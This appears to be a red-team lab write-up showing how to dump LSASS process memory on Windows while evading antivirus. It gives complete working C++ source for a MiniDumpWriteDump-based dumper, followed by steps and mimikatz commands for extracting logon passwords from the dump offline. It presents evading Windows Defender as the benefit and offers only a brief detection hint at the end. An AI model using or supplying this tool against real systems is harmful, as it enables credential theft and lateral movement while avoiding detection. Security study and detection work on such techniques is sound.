




# Dumping LSASS without Mimikatz with MiniDumpWriteDump == Reduced Chances of Getting Flagged by AVs

This lab explores how one could write a simple `lsass` process dumper for extracting the passwords it contains later on with mimikatz. **Possibly** without getting detected by some AV vendors - if you have a way of testing this against some known EDR solutions, I would be interested to hear about your findings.


The below code uses a number of known Windows API calls that could still be flagged by some antivirus agent or EDR solution.


## Code

Let's go ahead and compile this C++ code:



```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL; 
	HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}
	
	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
	
	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}
	
    return 0;
}
```





Do not forget to add `dbghelp.lib` as a dependency in the Linker &gt; Input settings for your C++ project if the compiler is giving you a hard time:



## Execution Demo

1. Execute CreateMiniDump.exe \(compiled file above\) or compile your own binary
2. Lsass.dmp gets dumped to the working directory
3. Take the lsass.dmp offline to your attacking machine
4. Open mimikatz and load in the dump file 
5. Dump passwords



```csharp
.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```




### Why it's worth it?

See how Windows Defender on Windows 10 is flagging up mimikatz immediately... but allows running CreateMiniDump.exe? Good for us - we get lsass.exe dumped to `lsass.dmp`:



..which then can be read in mimikatz offline:



Of ourse, there is procdump that does the same thing and it does not get flagged by Windows defender, but it is always good to know there are alternatives you could turn to if you need to for some reason. 

## Observations

As mentioned earlier, the code above uses a native windows API call `MiniDumpWriteDump` to make a memory dump of a given process. If you are on the blue team and trying to write detections for these activities, you may consider looking for processes loading in `dbghelp.dll` module and calling `MiniDumpWriteDump` function:



## References





